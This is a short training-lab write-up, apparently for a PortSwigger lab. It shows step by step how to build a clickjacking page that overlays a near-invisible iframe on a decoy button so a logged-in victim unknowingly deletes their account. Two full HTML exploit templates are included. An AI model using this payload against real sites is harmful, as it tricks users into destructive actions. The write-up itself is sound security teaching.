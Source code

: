 ![basic-clickjacking-with-csrf-protection-cover.png](basic-clickjacking-with-csrf-protection-cover.png)

In this apprentice level lab, we will exploit the delete account flow from a website vulnerable to clickjacking even though there is some CSRF token protection present.

---

Upon logging in with the given credentials, we notice that after going to the Account’s page, all that is needed to delete a user account is click on the `Delete Account` button. Let’s use the writing material’s clickjacking template to craft our exploit:

```html
<head>
   <style>
      iframe {
        position:relative;
        width:700px;
        height:600px;
        opacity:0.1;
        z-index:2;
      }
      div {
        position:absolute;
        z-index:1;
      }
   </style>
</head>
<body>
   <div>
      CLICK HERE
   </div>
   <iframe src="${LAB_ACCOUNT_ROUTE_URL}">
   </iframe>
</body>
```

This is how the template looks on our exploit server:

![basic-clickjacking-with-csrf-protection-1.png](basic-clickjacking-with-csrf-protection-cover.2)

We need to modify the location of the `CLICK ME` div tag so that it is on top of the `Delete Account` button on the vulnerable website. Note that we are setting the iframe’s opacity to `0.1` to be able to check the exploit appearance and then modifying the div’s top and left CSS properties so that when a logged in user clicks on the `CLICK ME` div on our website, they are actually clicking on the vulnerable website’s button to delete their account. After setting the top property to 500px and the left property to 50px, it looks like the buttons are aligned to perform a successful attack. At this point, our exploit looks like this:

```html
<head>
   <style>
      iframe {
        position:relative;
        width:700px;
        height:600px;
        opacity:0.1;
        z-index:2;
      }
      div {
        position:absolute;
        z-index:1;
        top:500px;
        left:50px;
      }
   </style>
</head>
<body>
   <div>
      CLICK HERE
   </div>
   <iframe src="${LAB_ACCOUNT_ROUTE_URL}">
   </iframe>
</body>
```

![basic-clickjacking-with-csrf-protection-2.png](basic-clickjacking-with-csrf-protection-2.png)

All we need to do is set the iframe’s opacity to 0.00001 or something similar so that it is almost invisible and send the exploit to our victim.

Check out this write up on Art Of Code: https://artofcode.tech/portswiggers-lab-write-up-basic-clickjacking-with-csrf-token-protection/
